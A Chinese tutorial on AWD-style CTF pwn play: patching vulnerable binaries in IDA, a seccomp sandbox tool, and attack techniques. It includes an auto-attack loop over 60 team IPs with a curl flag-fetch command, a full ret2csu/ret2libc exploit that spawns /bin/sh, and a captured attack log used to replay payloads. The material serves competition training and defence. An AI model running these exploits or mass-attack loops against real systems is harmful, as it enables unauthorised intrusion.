AWD PWN 方法总结

- - -

# AWD PWN 方法总结

许多 CTF 的线下赛都是 AWD 模式，所以这里来学习一下在 AWD 时 PWN 手各种应对方式

## AWD 简介

AWD(Attack With Defense，攻防兼备) 模式需要在一场比赛里要扮演攻击方和防守方，利用漏洞攻击其他队伍进行得分，修复漏洞可以避免被其他队伍攻击而失分。也就是说，攻击别人的靶机可以获取 Flag 分数时，别人会被扣分，同时也要保护自己的主机不被别人攻陷而扣分。

## 漏洞加固技巧

在 AWD 中每个选手会分配到一个运行了漏洞程序的靶机，我们可以找到自己靶机中的 PWN 附件（也就是漏洞程序）进行分析，发现漏洞来编写 exp 攻击其他队伍的靶机，同时我们需要用一些手段加固漏洞防止被其他选手攻击得分，以下介绍几种加固方法

### patch-PWN

patch 就是通过修改漏洞程序的漏洞汇编代码从而防止其他选手进行漏洞利用，不同的 awd 平台检查机制各不相同，原则上是只能针对漏洞点进行 patch 加固

#### 工具介绍：ida 插件 keypatch

一般 ida 中都会自带，这里我直接给各位提供配套了的的 ida7.7  
链接：[https://pan.baidu.com/s/1Nc-KnNRHAJC3dgAvI5QPvA?pwd=omxl](https://pan.baidu.com/s/1Nc-KnNRHAJC3dgAvI5QPvA?pwd=omxl)  
提取码：omxl

使用：

在 ida 的汇编代码区选中想要修改的汇编码，右击后找到 keypatch

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226231629-044d2cb2-d4ba-1.png)

再点击 patcher 进行修改

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226231622-ffee52e0-d4b9-1.png)

修改好后点击 patch 即可

修改后效果：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226231615-fbf1d694-d4b9-1.png)

如果想取消修改，那么就再次右击找到 `keypatch` 然后点击 `undo last patching`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226231610-f8abd46c-d4b9-1.png)

若要保存修改，则需要点击 Edit -- patch program -- apply patches to input file

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226231602-f3ddb02c-d4b9-1.png)

#### 1.patch 整数溢出

跳转指令

无符号跳转

| 汇编指令 | 描述  |
| --- | --- |
| JA  | 无符号大于则跳转 |
| JNA | 无符号不大于则跳转 |
| JAE | 无符号大于等于则跳转（同 JNB） |
| JNAE | 无符号不大于等于则跳转（同 JB） |
| JB  | 无符号小于则跳转 |
| JNB | 无符号不小于则跳转 |
| JBE | 无符号小于等于则跳转（同 JNA） |
| JBNE | 无符号不小于等于则跳转（同 JA） |

有符号跳转

| 汇编指令 | 描述  |
| --- | --- |
| JG  | 有符号大于则跳转 |
| JNG | 有符号不大于则跳转 |
| JGE | 有符号大于等于则跳转（同 JNL） |
| JNGE | 有符号不大于等于则跳转（同 JL） |
| JL  | 有符号小于则跳转 |
| JNL | 有符号不小于则跳转 |
| JLE | 有符号小于等于则跳转（同 JNG） |
| JNLE | 有符号不小于等于则跳转（同 JG） |

整数溢出漏洞是由于程序对于有无符号数的判断出现了问题，所以 patch 整数溢出便是针对于汇编中的跳转指令进行 patch

例：

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v4; // [rsp+Ch] [rbp-14h] BYREF
  void (*v5)(void); // [rsp+10h] [rbp-10h]
  unsigned __int64 v6; // [rsp+18h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  init(argc, argv, envp);
  v5 = (void (*)(void))(int)mmap((void *)0x20240000, 0x1000uLL, 7, 33, -1, 0LL);
  if ( v5 == (void (*)(void))-1LL )
  {
    perror("mmap");
    exit(1);
  }
  printf("input the length of your shellcode:");
  __isoc99_scanf("%2d", &v4);
  if ( (int)v4 <= 10 )
  {
    printf("input your shellcode:");
    myread(v5, v4);
  }
  else
  {
    puts("too long");
  }
  v5();
  return 0;
}
```

```plain
unsigned __int64 __fastcall myread(void *a1, unsigned int a2)
{
  char v3; // [rsp+1Fh] [rbp-11h]
  unsigned int i; // [rsp+20h] [rbp-10h]
  unsigned int v5; // [rsp+24h] [rbp-Ch]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v5 = read(0, a1, a2);
  for ( i = 0; i < v5; ++i )
  {
    v3 = *((_BYTE *)a1 + i);
    if ( (v3 <= 96 || v3 > 122) && (v3 <= 64 || v3 > 90) && (v3 <= 47 || v3 > 57) )
    {
      puts("Invalid character\n");
      exit(1);
    }
  }
  return v6 - __readfsqword(0x28u);
}
```

可以发现一个很明显的整数溢出漏洞，在判断时用的是 `int` 而在传参时用的是 `unsigned int`

再查看一下对应的汇编代码

```plain
.text:00000000000013F7 48 8D 45 EC                   lea     rax, [rbp+var_14]
.text:00000000000013FB 48 89 C6                      mov     rsi, rax
.text:00000000000013FE 48 8D 05 3F 0C 00 00          lea     rax, a2d                        ; "%2d"
.text:0000000000001405 48 89 C7                      mov     rdi, rax
.text:0000000000001408 B8 00 00 00 00                mov     eax, 0
.text:000000000000140D E8 2E FD FF FF                call    ___isoc99_scanf
.text:000000000000140D
.text:0000000000001412 8B 45 EC                      mov     eax, [rbp+var_14]
.text:0000000000001415 83 F8 0A                      cmp     eax, 0Ah
.text:0000000000001418 7E 11                         jle     short loc_142B
```

在这里使用了 JLE 指令进行跳转（有符号小于等于则跳转）

那么我们的修改思路就是将 JLE 指令改成对应无符号数跳转指令，即 JBE 即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226231519-dab5d174-d4b9-1.png)

#### 2.patch 栈溢出

x64

相对于 x86，x64 的栈溢出 patch 更加简便，这是因为 x64 的传参是通过寄存器的，此时只需要通过 patch 对应输入长度的寄存器即可

例：

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  init(argc, argv, envp);
  system("echo welcome to the pwn world!!!!!\n");
  puts("this is the text for you");
  puts("good luck");
  read(0, buf, 0x48uLL);
  puts("Why didn't the questioner put a shell or others??");
  puts("!!!I curse the questioner's wallet  having only $0");
  return 0;
}
```

栈溢出漏洞对应汇编：

```plain
.text:000000000040122E 48 8D 45 E0                   lea     rax, [rbp+buf]
.text:0000000000401232 BA 48 00 00 00                mov     edx, 48h ; 'H'                  ; nbytes
.text:0000000000401237 48 89 C6                      mov     rsi, rax                        ; buf
.text:000000000040123A BF 00 00 00 00                mov     edi, 0                          ; fd
.text:000000000040123F B8 00 00 00 00                mov     eax, 0
.text:0000000000401244 E8 57 FE FF FF                call    _read
.text:0000000000401244
```

我们可以看到 0x48 是由 rdx 传递，那么只要 patch 此处为一个无法溢出的数字即可

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226231510-d5063f52-d4b9-1.png)

x86

例：

```plain
int pwnme()
{
  char s[9]; // [esp+Fh] [ebp-9h] BYREF

  fgets(s, 50, stdin);
  return 0;
}
```

```plain
.text:080484EB 55                            push    ebp
.text:080484EC 89 E5                         mov     ebp, esp
.text:080484EE 83 EC 18                      sub     esp, 18h
.text:080484F1 A1 40 A0 04 08                mov     eax, ds:stdin@@GLIBC_2_0
.text:080484F6 83 EC 04                      sub     esp, 4
.text:080484F9 50                            push    eax                             ; stream
.text:080484FA 6A 32                         push    32h ; '2'                       ; n
.text:080484FC 8D 45 F7                      lea     eax, [ebp+s]
.text:080484FF 50                            push    eax                             ; s
.text:08048500 E8 8B FE FF FF                call    _fgets
.text:08048500
```

此时可以直接更改为 9

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226231500-cf622bc4-d4b9-1.png)

但是假设我们需要将其改为 0x100 以上

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226231453-cb2970ee-d4b9-1.png)

会明显发现多出了几个字节，所以当有的题目有出现要将 0x100 以上的数改成 0x100 以下，就会导致长度不对齐，导致引起栈空间变化，就需要用`nop`进行对齐

#### 3.patch 格式化字符串

例：

```plain
void hack()
{
  void *buf; // [rsp+8h] [rbp-8h]

  buf = malloc(0x400uLL);
  puts("hack me!");
  read(0, buf, 0x400uLL);
  printf((const char *)buf);
  free(buf);
}
```

```plain
.text:000000000000128F 48 8B 45 F8                   mov     rax, [rbp+buf]
.text:0000000000001293 48 89 C7                      mov     rdi, rax                        ; format
.text:0000000000001296 B8 00 00 00 00                mov     eax, 0
.text:000000000000129B E8 20 FE FF FF                call    _printf
.text:000000000000129B
```

有几种更改方式：

可以将 call printf 改成 call puts

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226231448-c7dce5b0-d4b9-1.png)

这样格式化字符串便无法被利用

但是由于 puts 会在字符串的基础上加上一个 `\n` 字符，可能导致 check 不过被判宕机扣分，所以在程序参数允许的情况下最好采用以下修改：

修改 printf 的传参指令，将`printf(format)`修改为`printf("%s",format)`

不过这道例题没有对应的%s等参数所以不适用此改法

以上的 patch 在一般的 AWDpwn 靶机情况下基本够用了，还有一些 patch 技巧例如 UAF、if 范围、危险函数可以参考这篇文章：

[AWDPwn 漏洞加固总结](https://www.freebuf.com/articles/web/283020.html)

### 通防小工具

如果嫌 patch 漏洞太麻烦，那可以尝试一下这个工具，不过不确保主办方是否会 check 出来（滑稽

来源于这位师傅的工具

[基于 pwntools 和 seccomp-tools 的 awd pwn 通防小工具-CSDN 博客](https://blog.csdn.net/qq_45595732/article/details/125472253)

具体原理就是通过这个小工具直接给程序上一个沙箱，里面禁用了 execve 等系统调用，导致攻击者无法获得后门 shell，这对于一些时间不长的 awd 题目基本上是一劳永逸的方式了，毕竟不是什么漏洞都能方便的写出 orw 的调用链的。

github 地址

[https://github.com/TTY-flag/evilPatcher](https://github.com/TTY-flag/evilPatcher)

环境需求：运行需要依赖 seccomps-tools 和 pwntools

[https://github.com/Gallopsled/pwntools](https://github.com/Gallopsled/pwntools)

[https://github.com/david942j/seccomp-tools](https://github.com/david942j/seccomp-tools)

## 攻击技巧

### 自动化脚本

awd 赛场上一般都有很多队伍的靶机，多的有大概 50~60 个，而一轮也就 5~10 分钟，这会导致我们如果跟原来做 pwn 题一样一个个打然后提交时间根本不够，甚至都没有时间来修漏洞，所以我们需要一些自动脚本来辅助我们自动攻击所有靶机拿到 flag（笔者第一次 awd 的惨痛教训）

例：

```plain
from pwn import *

#context(arch='amd64', os='linux',log_level='debug')#
flag1=[]
file_name = './pwn'
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
li = lambda x : print('\x1b[01;38;5;214m' + str(x) + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + str(x) + '\x1b[0m')

elf = ELF(file_name)

def dbg():
    gdb.attach(r)
    pause() 
def dbgg():
    raw_input()

for x in range(60):
    try:
        ip = "10.50.{}.4".format(x+2)
        prot = '1234'
            # print ip
        r = remote(ip,int(prot))
        #攻击脚本
        exp()
        payload = "curl http://10.0.1.2?token=CRUTRZIW"#根据主办方的要求来获取 flag
        r.sendline(payload)
        sleep(1)#在一些靶机多的环境下最好加几个 sleep，防止卡住
        sleep(1)
        flag = r.recv(0x20)
        print(str(flag))
        flag1.append(flag)
        index+=1
    except:
            print(ip)
            r.close()
print(flag1)
print("本轮共拿到"+str(index)+"个队伍的 flag")
r.interactive()
```

### 抄流量反打

如果在比赛里出现对 pwn 靶机给出的题目没有思路卡住了的情况不妨用用这个方法

工具来自这里

[https://github.com/i0gan/pwn\_waf/tree/main](https://github.com/i0gan/pwn_waf/tree/main)

当然这个工具不止检测流量这一个功能，可以查看文档了解各个功能

[pwn\_waf/README\_ZH.md at main · i0gan/pwn\_waf · GitHub](https://github.com/i0gan/pwn_waf/blob/main/README_ZH.md)

```plain
该 waf 有四个模式
CATCH 模式只是简单的捕获被攻击的交互流量，可以在日志路径下查看。
I0GAN 模式是一种防御模式，可以防止攻击者拿到 shell，也可以查看攻击者的交互流量。
FORWARD 模式只是简单的转发攻击者的流量去打别人，我们可以在中间过程抓到攻击者的流量。当然，如果攻击者成功获取到 flag，我们也可以在日志文件中获取到 flag。
FORWARD_MUTIL 是基于 FORWARD 模式的，它主要从 hosts.txt 文件中循环获取受害者的主机信息，然后将攻击者的流量转发给受害者。
```

我们这里介绍的是 catch 模式

下载好后再 makefile 文件里修改你想要创建和监听的文件夹路径，以及程序位数。（确保路径下没有你要创建的文件夹名）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226231437-c156a366-d4b9-1.png)

注：笔者这里由于是本地监听所以 ip 地址和端口没有做修改，实际是需要修改 ip 和端口的

运行命令

```plain
make catch
```

此时我们便可以创建一个对应目录的文件夹和一个 catch 文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226231431-bd9c0cfc-d4b9-1.png)

把对应文件夹赋予 rwx 权限

```plain
chmod 777 pwn1
```

然后把对应 pwn 靶机文件复制到创建的 pwn1 文件夹

再用生成的 catch（根据不同模式）文件替换原文件夹中的原始 pwn 文件

再将 pwn1 文件夹里的靶机文件改名为./pwn 即可

例：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226231418-b61411be-d4b9-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226231422-b891a74e-d4b9-1.png)

此时我们尝试运行攻击脚本

exp：

```plain
from pwn import *
from LibcSearcher import *

context.log_level = "debug"
#io = remote('pwn.node.game.sycsec.com', 30385)
io = process('./chal')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
#libc = ELF('./libc.so.6')
csu_end_addr=0x40132A
csu_front_addr=0x401310
def csu(rbx, rbp, r12, r15, r14, r13, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call()
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    # csu(0, 1, fun_got, rdx, rsi, rdi, last)
    payload = b""
    payload += p64(csu_end_addr) 
    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
    payload += p64(csu_front_addr)
    payload += b'a' * 0x38  
    payload += p64(last)    
    return payload 
pop_rdi_ret = 0x401333 
write_got = elf.got['write']
write_plt = 0x401080#elf.plt['write']
ret_addr = 0x40101a
rsi = 0x401331
r131415 = 0x40132e

payload1 = b'a'*0x10+b'\x00'*8 + csu(0,1,1,elf.got['write'],0x30,write_got,0x4011FD)# + p64(rsi) + p64(write_got) + p64(0) + p64(write_plt) + p64(0x4011FD)

io.sendlineafter('backdoor!',payload1)

#write_addr = u64(io.recv(6).ljust(8,b"\x00"))
write_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
print(hex(write_addr))


libc_base = write_addr - libc.sym["write"]
system = libc_base + libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh\x00"))
#libc = LibcSearcher('write',write_addr)
#libc_base = write_addr - libc.dump('write')
#system = libc_base + libc.dump('system')
#binsh = libc_base + libc.dump('str_bin_sh')
#binsh = libc_base + libc.dump('str_bin_sh')
print(hex(libc_base))
print(hex(system))
print(hex(binsh))
payload2 = b"\x00".ljust(0x18,b'a') +p64(ret_addr)+ p64(pop_rdi_ret) +p64(binsh) + p64(system) #
#gdb.attach(io)
#pause()
io.sendlineafter('backdoor!',payload2)

io.interactive()
```

此时 pwn1 文件夹下就会出现一条日志信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226231407-afd826be-d4b9-1.png)

打开就能找对应的 payload，直接抄进行反打

```plain
// Date: 2024-02-26 22:59:57
// Mode: CATCH
// CTF AWD PWN WAF
// Deved By I0gan

<-------------------- write ----------------->
try this
This challenge no backdoor!
w_0 = "\x74\x72\x79\x20\x74\x68\x69\x73\x0a\x54\x68\x69\x73\x20\x63\x68\x61\x6c\x6c\x65\x6e\x67\x65\x20\x6e\x6f\x20\x62\x61\x63\x6b\x64\x6f\x6f\x72\x21"

<-------------------- read ------------------>
aaaaaaaaaaaaaaaa\00\00\00\00\00\00\00\00*@\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00\00@@\00\00\00\00\000\00\00\00\00\00\00\00@@\00\00\00\00\00@\00\00\00\00\00aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\FD@\00\00\00\00\00

r_0 = "\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x00\x00\x00\x00\x00\x00\x00\x00\x2a\x13\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x18\x40\x40\x00\x00\x00\x00\x00\x30\x00\x00\x00\x00\x00\x00\x00\x18\x40\x40\x00\x00\x00\x00\x00\x10\x13\x40\x00\x00\x00\x00\x00\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\xfd\x11\x40\x00\x00\x00\x00\x00\x0a"

<-------------------- write ----------------->
\80\C2`\00\00\00i`\00\00К`\00\00p`\00\00p@\00\00\00\00\00\00\00\00\00\00\00\00\00This challenge no backdoor!
w_1 = "\x80\xc2\x16\x0e\x60\x7f\x00\x00\x00\x69\x1e\x0e\x60\x7f\x00\x00\xd0\x9a\x0e\x0e\x60\x7f\x00\x00\x70\x19\x0e\x0e\x60\x7f\x00\x00\x70\x10\x40\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x54\x68\x69\x73\x20\x63\x68\x61\x6c\x6c\x65\x6e\x67\x65\x20\x6e\x6f\x20\x62\x61\x63\x6b\x64\x6f\x6f\x72\x21"

<-------------------- read ------------------>
\00aaaaaaaaaaaaaaaaaaaaaaa@\00\00\00\00\003@\00\00\00\00\00\BD%!`\00\00\90`\00\00

<-------------- dangerous syscall------------>#这里就是获得 shell 了
<-------------- dangerous syscall------------>
```

## 其他工具

[AoiAWD-轻量级系统环境搭建\_aoiiawd-CSDN 博客](https://blog.csdn.net/qq_57235775/article/details/129858372)
